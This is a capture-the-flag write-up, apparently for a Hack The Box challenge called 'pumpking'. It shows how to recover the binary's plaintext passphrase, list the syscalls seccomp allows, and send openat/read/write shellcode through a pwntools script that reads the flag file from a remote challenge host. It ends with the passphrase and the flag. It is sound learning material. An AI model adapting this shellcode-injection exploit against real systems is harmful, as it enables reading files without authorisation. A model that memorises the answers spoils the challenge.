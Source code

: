 This binary provides the passphrase in plaintext which we can read with Ghidra or strings. This helps get to step 2 which is the `king()` function.

![image](https://user-images.githubusercontent.com/80063008/198273708-14010505-3529-4abf-ae33-f316e1d69e40.png)

According to Ghidra, if we pass shellcode here (in the king function), it will be executed directly.

![image](https://user-images.githubusercontent.com/80063008/198273739-3845e87e-4b2b-42eb-8dae-a5faa9357cc5.png)

We can figure out what functions we can use for the shellcode using the `seccomp-tools` ... tool.

https://github.com/david942j/seccomp-tools

```bash
seccomp-tools dump ./pumpking
```
![image](https://user-images.githubusercontent.com/80063008/198273832-07507cbe-f1c0-49b3-88e6-53a6d4a65bbf.png)

We see we can use `openat()`, `read()` and `write()`. After openat() is correctly called, the rax will return the fd required for read so we can pass that directly. I found and adjusted this script from a similiar challenge:

https://ctftime.org/writeup/33232


```python
#!/usr/bin/python

from pwn import *
context.log_level = 'warn'
context.clear(arch="amd64") #make sure to define the architecture

p = remote('206.189.117.93', 31444)

shellcode = shellcraft.linux.openat(-2, "/home/ctf/flag.txt")  #fd here is not that important, absolute path is very important (it's in the Dockerfile)
shellcode += shellcraft.linux.read('rax', 'rsp', 80)  #rax gives us the fd required for read()
shellcode += shellcraft.linux.write(1, 'rsp', 80)

p.sendline(b'pumpk1ngRulez') #send passphrase to get to king() function
p.recvuntil(b'>>')
p.sendline(asm(shellcode)) #send shellcode assembly instructions
p.interactive() #profit
```

![image](https://user-images.githubusercontent.com/80063008/198273939-9a244f0b-7af9-48f0-a17e-55b1ac19cf5b.png)

HTB{n4ughty_b01z_d0_n0t_f0ll0w_s3cc0mp_rul3z}